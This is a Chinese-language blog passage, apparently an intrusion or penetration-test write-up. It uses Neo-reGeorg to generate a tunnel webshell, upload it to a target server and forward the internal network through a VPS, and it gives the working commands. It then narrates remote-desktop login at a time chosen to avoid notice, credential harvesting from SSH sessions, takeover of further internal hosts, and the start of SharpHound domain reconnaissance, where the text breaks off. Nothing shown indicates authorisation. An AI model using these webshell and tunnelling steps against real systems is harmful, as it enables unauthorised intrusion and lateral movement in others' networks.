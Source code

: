 reGeorg 是 reDuh 的升级版。主要把内网服务器的端口通过http或https隧道转发到本机。

项目地址：https://github.com/L-codes/Neo-reGeorg

先设置密码，生成 tunnel 的 webshell，并上传到目标服务器：

  * 

    
    
    python neoreg.py generate -k pass

![](https://gitee.com/fuli009/images/raw/master/public/20210809121220.png)

这个时候直接 VPS 运行，把目标内网流量通过 http 转发到 VPS 的 1080 端口：  

  * 

    
    
    python neoreg.py -k pass -u http://saulgoodman.cn//wls-wsat/tuu.jsp

![](https://gitee.com/fuli009/images/raw/master/public/20210809121221.png)

然后本地 VPS 代理：  

![](https://gitee.com/fuli009/images/raw/master/public/20210809121223.png)

说明代理成功了！记住这里是 127.0.0.1 只能本地代理，客户端代理你服务器的 socks 是代理不上的！为了方便我在我再 Windows
上重新代理了一下，方便后续操作！

![](https://gitee.com/fuli009/images/raw/master/public/20210809121224.png)

这个时候就可以进目标内网了，由于当前目标机器时间是凌晨，且确定没有人在用远程桌面，我直接登陆目标远程桌面：  

![](https://gitee.com/fuli009/images/raw/master/public/20210809121225.png)

然后对目标桌面上进行信息搜集发现有 SSH 登陆：  

![](https://gitee.com/fuli009/images/raw/master/public/20210809121226.png)

成功又拿下内网其他机器：

![](https://gitee.com/fuli009/images/raw/master/public/20210809121227.png)  
然后换个用户登陆到 200 这台机器：（发现有大哥扫描过了，资产还挺多）  

![](https://gitee.com/fuli009/images/raw/master/public/20210809121228.png)

![](https://gitee.com/fuli009/images/raw/master/public/20210809121229.png)

发现应该都是 docker，没啥价值！资产收集的差不多了该搜集域内的了！

  

 **SharpHound 对域内进行信息搜集**

  

通过 SharpHound 对域内进行信息搜集：

  * 
